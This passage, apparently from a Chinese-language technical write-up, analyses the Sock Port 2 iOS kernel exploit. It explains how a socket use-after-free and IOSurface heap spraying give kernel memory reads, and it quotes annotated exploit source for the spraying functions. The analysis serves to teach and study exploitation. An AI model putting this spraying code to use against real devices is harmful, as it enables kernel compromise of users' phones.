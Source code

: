 然后我们利用 Socket UAF 制造大量的已释放 `in6p_outputopts` 区域，随后将上述伪造的数据喷射到 Socket UAF 区域，通过 getsockopt 函数读取 minmtu 确认 Spraying 成功，成功后再通过 getsockopt 读取 `ip6po_pktinfo` 结构体，由于 `ip6po_pktinfo` 的大小为 20B，我们通过这种方式一次性可以读取目标地址的 20B 数据。

不难看出，上述问题的关键在于如何实现 `faked in6p_outputopts` 的 Spraying，而 IOSurface 能够向内核的帧缓冲区发送任意数据，因此非常适合这个场景。

# IOSurface Heap Spraying 详解
首先我们看到 Sock Port 2 提供的 IOSurface 函数：
```c
int spray_IOSurface(void *data, size_t size) {
    return !IOSurface_spray_with_gc(32, 256, data, (uint32_t)size, NULL);
}

bool
IOSurface_spray_with_gc(uint32_t array_count, uint32_t array_length,
		void *data, uint32_t data_size,
		void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
	return IOSurface_spray_with_gc_internal(array_count, array_length, 0,
			data, data_size, callback);
}
```

其中 Facade 函数为 `spray_IOSurface`，只需要提供待 Spraying 的数据和大小即可，它是 `IOSurface_spray_with_gc` 的简单封装，提供了对生成的 OSArray 的默认配置，`array_count = 32` 代表生成 32 个 Spraying Array，即进行 32 次 Heap Spraying，而 `array_length = 256` 代表每个数组中包含了 256 个 Spraying Data。

## XML 构造
在 `IOSurface_spray_with_gc_internal` 函数中，首先完成的是 OSSerializeBinary XML 的构造：
```objc
static bool
IOSurface_spray_with_gc_internal(uint32_t array_count, uint32_t array_length, uint32_t extra_count, void *data, uint32_t data_size, void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    // 1. 创建一个 IOSurfaceRootClient 对象与内核通信
    // Make sure our IOSurface is initialized.
    bool ok = IOSurface_init();
    if (!ok) {
    	return 0;
    }
    
    // 2. 我们当前的使用方式下 extra_count = 0，因此可以忽略 extra_count
    // How big will our OSUnserializeBinary dictionary be?
    uint32_t current_array_length = array_length + (extra_count > 0 ? 1 : 0);
    
    // 3. 计算 Spraying Data 所需要的 XML 结点数
    size_t xml_units_per_data = xml_units_for_data_size(data_size);
    
    // 4. 这里的多个 1 代表除去 Spraying Data 外的固定 XML 结点，后面具体构造会看到
    size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
    
    // 5. 构造传入内核的 args，包含了待构造 xml 与其他描述内容
    // Allocate the args struct.
    struct IOSurfaceValueArgs *args;
    size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
    args = malloc(args_size);
    assert(args != 0);
    // Build the IOSurfaceValueArgs.
    args->surface_id = IOSurface_id;
    // Create the serialized OSArray. We'll remember the locations we need to fill in with our
    
    // 6. 每个 XML 都包含了一个 OSArray 来容纳 Spraying Data
    // 这里的 xml_data 数组即容纳 current_array_length(256) 个 xml_data
    // 每个 xml_data 包含一个 Spraying Data，它由多个 xml 结点组成
```